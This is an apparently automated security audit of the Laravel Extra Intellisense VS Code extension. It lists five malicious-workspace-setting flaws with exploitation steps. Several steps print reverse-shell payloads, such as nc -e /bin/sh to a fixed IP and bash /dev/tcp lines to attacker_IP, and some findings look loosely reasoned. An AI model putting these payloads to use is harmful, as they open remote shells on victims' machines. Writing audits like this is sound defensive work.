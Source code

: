 # Security Vulnerabilities

## Vulnerability 1: Command Injection via `phpCommand` Configuration (Critical)
### Description
The `phpCommand` configuration template is directly interpolated into system command execution without sanitization. Attackers can inject arbitrary shell commands via this setting, leading to RCE.

### Step-by-Step Exploitation:
1. **Malicious Configuration Setup**
   The attacker adds the following to a malicious repository's `.vscode/settings.json`:
   ```json
   "LaravelExtraIntellisense.phpCommand": "php -r \"{code}\"; /bin/bash -c '/bin/nc -e /bin/sh 10.10.10.10 4444' &"
   ```
2. **Trigger Execution**
   The victim opens the repo. The extension executes the `phpCommand` during routine operations (e.g., model loading), triggering the reverse shell.

### Impact
Arbitrary system command execution with victim's privileges.

### Vulnerability Rank
Critical

### Current Implemented Mitigations
- None. The configuration is fully user-defined without validation.

### Missing Mitigations
- Sanitize `phpCommand` to prevent command injection via `{code}` placeholders.
- Enforce a white-listed command format.

---

## Vulnerability 2: PHP Code Execution via `modelsPaths` Configuration (High)
### Description
The `modelsPaths` config allows attackers to specify directories for scanning Eloquent models. By setting paths like `../..//`, attackers can include malicious PHP files placed in those directories, leading to code execution.

### Step-by-Step Exploitation:
1. **Malicious Repository Setup**
   The attacker creates a repo with:
   - `.vscode/settings.json`: `"LaravelExtraIntellisense.modelsPaths": ["../..//"]`
   - `../..//Exploit.php` containing PHP code like `system("bash -i > /dev/tcp/attacker_IP/PORT 2>&1"); die;`.
2. **Trigger Execution**
   The victim opens the repo, prompting the extension to scan the directories and execute the malicious `Exploit.php`.

### Impact
Arbitrary PHP code execution in the victim's environment.

### Vulnerability Rank
High

### Current Implemented Mitigations
- None. Paths are accepted without validation.

### Missing Mitigations
- Restrict paths to the project root.
- Sanitize input to block directory traversal.

---

## Vulnerability 3: Command Injection via `phpCommand` with Docker (High)
### Description
The `phpCommand` setting allows attackers to execute Docker commands alongside legitimate PHP execution. For example:
```json
"LaravelExtraIntellisense.phpCommand": "docker exec -it vulnerable_container php -r \"{code}\"; /bin/sh -i >& /dev/tcp/attacker_IP/PORT 2>&1 &"
```
This executes Docker commands to gain RCE in containers.

### Impact
RCE via malicious Docker operations.

### Vulnerability Rank
High

### Current Implemented Mitigations
- None.

### Missing Mitigations
- Sanitize `phpCommand` to block Docker command injection.

---

## Vulnerability 4: Code Injection via `customValidationRules` (High)
### Description
The `customValidationRules` config lets attackers inject malicious PHP code into validation rules. For example:
```json
"LaravelExtraIntellisense.customValidationRules": {
    "exploit": "system('bash -i > /dev/tcp/attacker_IP/PORT 2>&1'); die;"
}
```
The extension directly uses these rules in PHP contexts, executing the code.

### Impact
Arbitrary PHP code execution during validation operations.

### Vulnerability Rank
High

### Current Implemented Mitigations
- None.

### Missing Mitigations
- Sanitize `customValidationRules` to block code execution.

---

## Vulnerability 5: Arbitrary File Inclusion via `viewDirectorySeparator` (High)
### Description
The `viewDirectorySeparator` setting allows attackers to traverse directories (e.g., `../..//`). Combined with malicious `.blade.php` files in the repo, this lets attackers include PHP payload files.

### Step-by-Step Exploitation:
1. **Malicious Configuration Setup**
   The attacker sets `"LaravelExtraIntellisense.viewDirectorySeparator": "../..//"`.
2. **Exploit Trigger**
   The victim opens the repo, enabling the extension to include attacker-controlled files during view scanning.

### Impact
Arbitrary PHP code execution from included files.

### Vulnerability Rank
High

### Current Implemented Mitigations
- None.

### Missing Mitigations
- Restrict directory traversal in `viewDirectorySeparator`.
- Validate paths against the project root.

---

### Final List (Valid High/Critical Vulnerabilities)
1. **Vulnerability 1**: Critical command injection via `phpCommand`.
2. **Vulnerability 2**: High-severity code execution via `modelsPaths`.
3. **Vulnerability 3**: High-severity Docker command injection via `phpCommand`.
4. **Vulnerability 4**: High-severity validation rule code injection.
5. **Vulnerability 5**: High-severity file inclusion leading to code execution.

All vulnerabilities are valid, unmitigated, and meet the criteria (RCE/Command/Code Injection, rank ≥ High).
